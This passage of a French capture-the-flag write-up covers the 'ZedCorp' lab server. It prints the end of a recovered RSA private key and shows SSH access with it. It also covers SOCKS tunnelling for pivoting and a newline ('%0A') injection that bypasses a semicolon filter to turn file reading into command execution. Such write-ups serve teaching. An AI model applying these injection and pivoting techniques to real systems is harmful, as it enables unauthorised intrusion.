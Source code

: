 VVU6YcP0KwZUHeUOC7qNxSCTnB7FkANad+D/7a0MGqAGCmWChS5GD6zpqhW+tKkY
zc9Ur+20TJHIwAKloaZLiMdcpdyFUQQRStXCGD6wqbw8UxGfx1Fd0g==
-----END RSA PRIVATE KEY-----
{{< /highlight >}}

Et voilà, nous pouvons à présent nous connecter en SSH sur le port TCP/5007 avec le compte **test** :

{{< highlight bash >}}
host:~$ ssh -i id_rsa -p 5007 test@ctf.hacklab-esgi.org 
Linux dev-server 4.9.0-6-amd64 #1 SMP Debian 4.9.88-1+deb9u1 (2018-05-07) x86_64 
 
 ____       _  ___               
|_  /___ __| |/ __|___ _ _ _ __  
 / // -_) _` | (__/ _ \ '_| '_ \ 
/___\___\__,_|\___\___/_| | .__/ 
          Dev Server      |_|    

[HINT] : Do you know proxychains ? 
Last login: Sat Apr  6 05:45:38 2019 from 94.228.190.38 
This account is currently not available. 
Connection to ctf.hacklab-esgi.org closed.
{{< /highlight >}}

## SSH et Proxychains

Évidement, pour ceux qui ont suivi, le compte **test** ne peut pas se connecter au serveur (`/usr/sbin/nologin`). Nous avons ici un indice, _"Do you know proxychains ?"_.

{{< highlight bash >}}
host:~$ ssh -N -D 5000 -i id_rsa -p 5007 test@ctf.hacklab-esgi.org
{{< /highlight >}}

Nous avons maintenant un proxy SOCKS5 qui donne accès au réseau interne accessible depuis le serveur de ZedCorp. Question : quelles sont les autres serveurs accessibles ?

Une solution serait de scanner le range IP comme un sagouin, mais j'ai préféré chercher plus d'informations sur le serveur Web, nottament cette histoire de `tail`.

## LFI to RCE

Rappelez-vous, pour obtenir la clé privée RSA, nous avions supposé que la commande `tail` était utilisée et avions ajouté l'option `-n 100` pour augmenter le nombre de lignes du fichier à afficher. Y aurait-il une RCE ?

Lorsque l'on essaye d'ajouter un `;` pour chaîner les commandes, le serveur refuse de l'exécuter et répond _"Error : use of forbidden chars..."_. En continuant à creuser, on s'aperçoit que le serveur ne filtre pas le retour chariot `%0A` ... RCE !

Le but est de savoir quelle sont les autres serveurs voisins de celui-ci. En regardant les interfaces réseau (`ip a`), nous observons deux interfaces **ens192** (`10.10.40.2/29`) et **ens224** (`10.0.0.1/16`). Notre connexion SSH est établie sur l'interface **ens192**.

{{< highlight bash >}}
10.0.0.1:~$ ss -t
State      Recv-Q Send-Q Local Address:Port      Peer Address:Port                
ESTAB      0      0      10.10.40.2:ssh          X.X.X.X:48040                
ESTAB      0      0      10.0.0.1:55480          10.0.0.1:http                 
ESTAB      0      0      10.10.40.2:ssh          X.X.X.X:48418                
ESTAB      0      0      ::ffff:10.0.0.1:http    ::ffff:10.0.0.1:55480
{{< /highlight >}}
